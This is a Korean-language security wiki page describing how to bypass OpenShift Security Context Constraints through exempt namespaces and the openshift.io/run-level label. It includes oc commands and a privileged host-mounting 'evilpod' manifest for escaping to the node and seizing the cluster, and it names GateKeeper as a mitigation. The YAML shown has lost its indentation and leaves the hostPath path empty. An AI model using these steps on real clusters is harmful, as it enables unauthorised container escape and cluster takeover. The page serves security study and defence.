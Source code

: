 # Openshift - SCC 우회

**이 페이지의 원래 저자는** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)입니다.

## 권한 있는 네임스페이스

기본적으로 SCC는 다음 프로젝트에 적용되지 않습니다:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

이 네임스페이스 중 하나에 포드를 배포하면 SCC가 적용되지 않아 권한 있는 포드를 배포하거나 호스트 파일 시스템을 마운트할 수 있습니다.

## 네임스페이스 레이블

RedHat 문서에 따르면 포드에서 SCC 적용을 비활성화하는 방법이 있습니다. 다음 권한 중 하나 이상이 필요합니다:

- 네임스페이스 생성 및 이 네임스페이스에 포드 생성
- 네임스페이스 편집 및 이 네임스페이스에 포드 생성
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
특정 레이블 `openshift.io/run-level`은 사용자가 애플리케이션에 대한 SCC를 우회할 수 있게 해줍니다. RedHat 문서에 따르면, 이 레이블이 사용될 때 해당 네임스페이스 내의 모든 포드에 대해 SCC가 적용되지 않으며, 사실상 모든 제한이 제거됩니다.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## 레이블 추가

네임스페이스에 레이블을 추가하려면 :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
YAML 파일을 통해 레이블이 있는 네임스페이스를 생성하려면:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
이제 네임스페이스에서 생성된 모든 새로운 팟은 SCC가 없어야 합니다.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC가 없으면 팟 정의에 대한 제한이 없습니다. 이는 악의적인 팟이 호스트 시스템으로 쉽게 탈출할 수 있음을 의미합니다.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
이제 호스트 시스템에 대한 권한 상승이 더 쉬워졌으며, 그에 따라 전체 클러스터를 장악하고 'cluster-admin' 권한을 얻을 수 있습니다. 다음 페이지에서 **Node-Post Exploitation** 부분을 찾아보세요:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### 사용자 정의 레이블

또한, 대상 설정에 따라 이전 공격 시나리오와 동일한 방식으로 일부 사용자 정의 레이블/주석을 사용할 수 있습니다. 비록 의도하지 않았더라도, 레이블은 특정 리소스에 대한 권한을 부여하거나 제한하는 데 사용될 수 있습니다.

일부 리소스를 읽을 수 있다면 사용자 정의 레이블을 찾아보세요. 흥미로운 리소스 목록은 다음과 같습니다:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## 모든 권한이 있는 네임스페이스 나열
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Advanced exploit

OpenShift에서 앞서 설명한 바와 같이, `openshift.io/run-level` 레이블이 있는 네임스페이스에 포드를 배포할 수 있는 권한을 가지면 클러스터를 간단히 장악할 수 있습니다. 클러스터 설정 관점에서 이 기능은 **비활성화할 수 없습니다**, 이는 OpenShift의 설계에 내재되어 있습니다.

그러나 **Open Policy Agent GateKeeper**와 같은 완화 조치는 사용자가 이 레이블을 설정하는 것을 방지할 수 있습니다.

GateKeeper의 규칙을 우회하고 이 레이블을 설정하여 클러스터 장악을 실행하려면, **공격자는 대체 방법을 식별해야 합니다.**

## References

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
